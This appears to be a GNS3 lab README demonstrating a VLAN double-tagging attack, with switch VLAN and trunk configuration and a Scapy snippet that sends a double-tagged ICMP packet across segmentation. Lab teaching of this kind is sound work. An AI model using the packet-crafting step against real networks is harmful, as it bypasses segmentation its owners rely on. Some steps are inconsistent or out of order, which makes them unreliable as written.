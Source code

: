 # Title

## 🖥️ Lab Topology

![](assets/double-tagging-topo.png)

## Setup

### Switch Port Layout
| Switch   | Port    | Connected Device | VLAN    | Port Mode             |
|----------|---------|------------------|---------|-----------------------|
| SWITCH1  | Et0/0   | SWITCH2          | N/A     | Trunk (native VLAN 1) |
| SWITCH1  | Et0/1   | CAMERA_01        | VLAN 20 | Access                |
| SWITCH1  | Et0/2   | ATTACKER         | VLAN 1  | Access                |
| SWITCH2  | Et0/0   | SWITCH1          | N/A     | Trunk (native VLAN 1) |
| SWITCH2  | Et0/1   | CENTRAL_SERVER   | VLAN 20 | Access                |

### VPCS Static IPv4 Configuration

For simplicity's sake, both CAMERA_01 and CENTRAL_SERVER are [VPCS](https://docs.gns3.com/docs/emulators/vpcs/) (virtual PC simulator) appliances. The following command will set an IP address and save the configuration if the device reboots.
<pre>
  VPCS> ip 192.168.0.x/24
  VPCS> save
</pre>

### Docker Container IPv4 Configuration

The ATTACKER machine is a Docker container. The imaged used in this lab is [finchsec/scapy](https://hub.docker.com/r/finchsec/scapy), which gives access to the Scapy program for crafting custom network packets to perform this attack. Configuring IP addresses for Docker appliances in GNS3 is easy as shown below:

R-Click -> Edit config

![](assets/attacker-interfaces.png)

### Verify

CAMERA_01 should now be able to ping CENTRAL_SERVER

![](assets/camera-server-ping.gif)


ATTACKER should be able to ping CAMERA_01 or CENTRAL_SERVER due to network segmentation

![](assets/attacker-ping.gif)

Craft a double-tagged ICMP packet with Scapy

<pre>
  >>> packet = Ether(dst='ff:ff:ff:ff:ff:ff')/Dot1Q(vlan=1)/Dot1Q(vlan=20)/IP(dst='192.168.0.250')/ICMP()
  >>> sendp(packet, iface="eth0")
  .
  Sent 1 packets.
</pre>

Create new vlan
<pre>
  SWITCH1> enable
  SWITCH1# configure terminal
  SWITCH1(config)# vlan 20
  SWITCH1(config-vlan)# name BLUE
  SWITCH1(config-vlan)# exit
  SWITCH1# show vlan brief
  
  VLAN Name                             Status    Ports
  ---- -------------------------------- --------- -------------------------------
  1    default                          active    Et0/0, Et0/1, Et0/2, Et0/3
                                                  Et1/0, Et1/1, Et1/2, Et1/3
                                                  Et2/0, Et2/1, Et2/2, Et2/3
                                                  Et3/0, Et3/1, Et3/2, Et3/3
  20   BLUE                             active
</pre>

Assign vlan to switchport Et0/1 (CAMERA_01)
<pre>
  SWITCH1> enable
  SWITCH1# configure terminal
  SWITCH1(config)# interface Et0/1
  SWITCH1(config-if)# switchport mode access
  SWITCH1(config-if)# switchport access vlan 20
  SWITCH1(config-if)# exit
  SWITCH1# show vlan brief
  
  VLAN Name                             Status    Ports
  ---- -------------------------------- --------- -------------------------------
  1    default                          active    Et0/0, Et0/2, Et0/3, Et1/0
                                                  Et1/1, Et1/2, Et1/3, Et2/0
                                                  Et2/1, Et2/2, Et2/3, Et3/0
                                                  Et3/1, Et3/2, Et3/3
  20   BLUE                             active    Et0/1
</pre>

Configure Et0/0 as static trunk port
<pre>
  SWITCH1> enable
  SWITCH1# configure terminal
  SWITCH1(config)# interface Et0/0
  SWITCH1(config-if)# switchport trunk encapsulation dot1q
  SWITCH1(config-if)# switchport mode trunk
  SWITCH1(config-if)# switchport trunk allowed vlan 20
  SWITCH1(config-if)# exit
  SWITCH1# show interfaces trunk
  
  Port           Mode             Encapsulation  Status        Native vlan
  Et0/0          on               802.1q         trunking      1

  Port           Vlans allowed on trunk
  Et0/0          20

  Port           Vlans allowed and active in management domain
  Et0/0          20

  Port           Vlans in spanning tree forwarding state and not pruned
  Et0/0          20
</pre>

Repeat these step on SWITCH2
